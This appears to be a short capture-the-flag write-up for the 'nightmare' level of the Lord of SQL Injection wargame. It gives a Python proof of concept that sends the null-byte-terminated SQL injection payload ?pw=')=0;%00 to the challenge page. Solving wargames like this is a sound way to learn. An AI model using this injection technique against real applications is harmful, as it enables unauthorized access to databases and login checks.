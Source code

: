 url : https://los.rubiya.kr/chall/nightmare_be1285a95aa20e8fa154cb977c37fee5.php

# Summary
- We don't have to get ADMIN, just bypass QUERY is enough
- make it true QUERY

# PoC
```python
import requests

header = {"Cookie": "PHPSESSID=;"}
url = "https://los.rubiya.kr/chall/nightmare_be1285a95aa20e8fa154cb977c37fee5.php"

payload = "?pw=')=0;%00"

response = requests.get(url + payload, headers=header)

result = response.text
if result.find("Clear!") != -1:
    end = result.split("Clear!")[0].split("<h2>")[1]
    print(end+"Clear!")
```

Vamos~